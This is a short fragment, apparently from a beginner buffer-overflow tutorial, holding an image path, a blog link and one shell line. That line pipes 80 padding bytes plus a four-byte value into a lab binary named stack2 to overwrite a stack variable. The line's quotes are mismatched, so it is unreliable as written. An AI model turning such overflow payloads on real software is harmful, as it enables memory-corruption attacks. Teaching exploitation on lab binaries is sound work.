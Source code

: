 https://h4ckbl0g.github.io/Buffer-Overflow-basico/

python3 -c 'print("A'*80 + "\x05\x03\x02\x01")' | ./stack2
